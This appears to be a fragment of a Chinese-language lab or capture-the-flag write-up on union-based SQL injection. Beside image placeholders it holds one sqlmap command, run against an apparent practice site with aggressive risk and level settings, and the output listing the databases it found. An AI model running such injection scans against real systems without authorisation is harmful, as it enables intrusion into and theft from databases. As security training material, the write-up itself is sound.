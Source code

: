 ### Union Select
![image](ubsqli.png)

![image](ubsqli2.png)

用`sqlmap`檢查database
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs

->
[19:47:35] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] union_based_sqli
```
